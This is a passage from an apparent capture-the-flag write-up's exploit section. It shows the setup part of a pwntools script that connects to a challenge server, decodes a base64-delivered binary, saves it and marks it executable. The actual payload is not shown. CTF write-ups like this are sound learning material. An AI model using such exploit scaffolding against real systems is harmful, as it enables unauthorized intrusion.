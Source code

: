 
## Exploit
> Get the exploit script  used below [here](./express_ploit.py)

* Preparation 
    ```python
        #!/bin/env python3
        from pwn import *
        import os
        import sys
        import subprocess

        # set the architecture we are working with
        context.arch = 'amd64'
    ```

* Get the binary or initialise the connection

    ```python
        # Determine the exploit location remote or local
        if len(sys.argv) > 1 and sys.argv[1] == 'remote':
              rem = True
        else:
            rem = False

        if rem:                         # remote exploit code

            # initialise connection
            host, port = 'challs.xmas.htsp.ro', 12002
            p = remote(host, port)

            # get the binary from output
            p.recvuntil("Content: b'")
            encoded_bin = p.recvuntil('\n\n\n\n').decode('utf-8').strip('\n').strip("'")
            binary = base64.decodebytes(encoded_bin.encode())

            # save the binary and set correct permission
            file = open('binary', 'wb')
            file.write(binary)
            file.close()
            os.system('chmod +x ./binary')

        else:                           # local exploit code
            # run the binary
            p = process('./binary')
    ```
